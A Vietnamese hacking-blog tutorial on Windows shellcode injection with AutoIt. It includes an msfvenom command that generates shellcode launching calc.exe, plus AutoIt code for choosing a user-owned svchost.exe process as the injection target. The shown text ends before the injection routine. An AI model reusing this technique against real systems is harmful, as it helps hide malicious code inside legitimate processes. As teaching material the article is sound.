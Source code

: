 # Cách thực hiện kĩ thuật tấn công Shellcode Injection với Autoit

**Tác giả:** Thanh Kim  
**Danh mục:** Basic Hacking  
**Ngày đăng:** 08/03/2025  
**URL gốc:** https://anonyviet.com/cach-thuc-hien-ki-thuat-tan-cong-shellcode-injection-voi-autoit/

## Khám phá kỹ thuật Shellcode Injection với AutoIt: chèn mã độc vào tiến trình, thực thi lệnh nguy hại. Hiểu để phòng thủ trong an ninh mạng!

Việc hiểu rõ các kỹ thuật tấn công là một phần quan trọng để phát triển các biện pháp phòng thủ hiệu quả. Một trong những phương pháp tấn công nổi bật là **Shellcode Injection**, cho phép hacker chèn mã độc trực tiếp vào bộ nhớ của chương trình đang chạy để thực thi các lệnh độc hại. Kết hợp với AutoIt là một ngôn lập trình dễ sử dụng làm cho kỹ thuật này trở nên linh hoạt và nguy hiểm hơn bao giờ hết.

**Lưu ý:** Bài viết này chỉ dành cho mục đích giáo dục, nghiên cứu và học tập. Anonyviet không chịu trách nhiệm trước mọi hành vi bất hợp pháp

## **Shellcode Injection là gì ?**

Trước khi đi vào chi tiết, hãy cùng tìm hiểu khái niệm cơ bản. Shellcode là một đoạn mã nhị phân nhỏ, thường được viết bằng ngôn ngữ Assembly, nhằm mục đích thực thi một tác vụ cụ thể (như mở shell, tải phần mềm độc hại,…). Shellcode Injection là quá trình chèn đoạn mã này vào bộ nhớ của một tiến trình đang chạy, sau đó buộc tiến trình đó thực thi mã.

Với khả năng thao tác bộ nhớ và gọi các hàm API của Windows, Autoit là ngôn ngữ lập trình lý tưởng để thực hiện kỹ thuật này. Chúng ta sẽ tận dụng các hàm có sẵn trong các thư viện của Autoit để tương tác với hệ thống

## **Cách thực hiện kĩ thuật Shellcode Injection**

### **1. Chuẩn bị môi trường**

Để bắt đầu, bạn cần chuẩn bị những thứ sau:

- **Tải và cài đặt AutoIt:** Đảm bảo bạn có cả trình soạn thảo SciTE để viết code
- **Shellcode:** Bạn có thể tạo shellcode bằng các công cụ như Metasploit (msfvenom) hoặc tự viết bằng Assembly. Ví dụ, dùng lệnh sau trong Metasploit để tạo shellcode mở calculator

```bash
msfvenom -p windows/x64/exec CMD=calc.exe -f hex
```

Kết quả sẽ là một chuỗi hex như: fc4883e4…32e65786500

- **Kiến thức cơ bản:** Hiểu về hàm API Windows như VirtualAlloc, RtlMoveMemory, và CreateThread

### **2. Viết code Autoit thực hiện kĩ thuật Shellcode Injection**

#### **Phần khai báo thư viện**

```autoit
#include <Process.au3>
#include <Memory.au3>
#include <WinAPI.au3>
#include <Array.au3>
```

Đây là các thư viện (library) mà AutoIt sử dụng để cung cấp các hàm hỗ trợ:

- <Process.au3>: Hỗ trợ làm việc với tiến trình (process), như lấy tên, kiểm tra PID.
- <Memory.au3>: Cung cấp hàm để thao tác bộ nhớ, như cấp phát hoặc ghi dữ liệu.
- <WinAPI.au3>: Cho phép gọi các hàm API của Windows (như OpenProcess, WriteProcessMemory).
- <Array.au3>: Hỗ trợ làm việc với mảng (array), dùng để quản lý danh sách tiến trình.

#### **Khai báo biến toàn cục**

```autoit
Global $hexShellcode = "fc4883e4...32e65786500"
```

$hexShellcode là shellcode dạng mã hexa (chuỗi số và chữ cái như fc4883e4f). Đây là đoạn mã nhỏ sẽ được tiêm vào tiến trình đích để thực thi

#### **Gọi các hàm chính**

```autoit
_CheckProcess()
_ProcessInjection()
```

Hai hàm này chính là "đầu não" của chương trình:

- _CheckProcess(): Kiểm tra xem tiến trình đích (svchost.exe) có đang chạy không
- _ProcessInjection(): Thực hiện việc tiêm shellcode vào tiến trình svchost.exe

#### **Hàm _CheckProcess()**

```autoit
Func _CheckProcess()
    ConsoleWrite("[+] Checking for target process" & @CRLF & @CRLF)

    Global $targetPID = Find_Process("svchost.exe")

    If Not $targetPID = 0 Then
        Global $targetProcName = _ProcessGetName($targetPID)
        ConsoleWrite("[+] Target process is running (" & $targetProcName &")" & @CRLF & @CRLF)
    ElseIf $targetPID = 0 Then
        ConsoleWrite("[!] Target process is not running. Exiting." & @CRLF & @CRLF)
        Exit
    EndIf
EndFunc
```

Hàm này kiểm tra xem tiến trình svchost.exe có đang chạy không và lấy mã định danh (PID) của nó

Chi tiết:

- **ConsoleWrite("[+] Checking for target process" & @CRLF & @CRLF):** In thông báo "Đang kiểm tra tiến trình đích"
- **$targetPID = Find_Process("svchost.exe"):** Gọi hàm Find_Process để tìm PID của svchost.exe
- **If Not $targetPID = 0:** Nếu tìm thấy PID (khác 0):
  - **$targetProcName = _ProcessGetName($targetPID):** Lấy tên tiến trình từ PID
  - In thông báo xác nhận tiến trình đang chạy
- **ElseIf $targetPID = 0:** Nếu không tìm thấy, in thông báo lỗi và thoát chương trình (Exit)

#### **Hàm Find_Process()**

```autoit
Func Find_Process($process)
    $loggedInUser = @UserName
    $processList = ProcessList()
    Dim $matchingProcesses[1]

    For $i = 1 To $processList[0][0]
        $processName = $processList[$i][0]
        $processPID = $processList[$i][1]

        If StringInStr($processName, $process) And _IsProcessOwner($processPID, $loggedInUser) Then
            ReDim $matchingProcesses[UBound($matchingProcesses) + 1]
            $matchingProcesses[UBound($matchingProcesses) - 1] = $processPID
        EndIf
    Next

    If UBound($matchingProcesses) > 1 Then
        $randomIndex = Random(1, UBound($matchingProcesses) - 1, 1)
        $randomPID = $matchingProcesses[$randomIndex]
        Return $randomPID
    Else
        Return ""
    EndIf
EndFunc
```

Hàm này tìm tất cả các tiến trình có tên chứa **$process** (ở đây là "svchost.exe") và chọn ngẫu nhiên một PID thuộc về người dùng hiện tại.

**Bài viết được thu thập từ AnonyViet - https://anonyviet.com/**
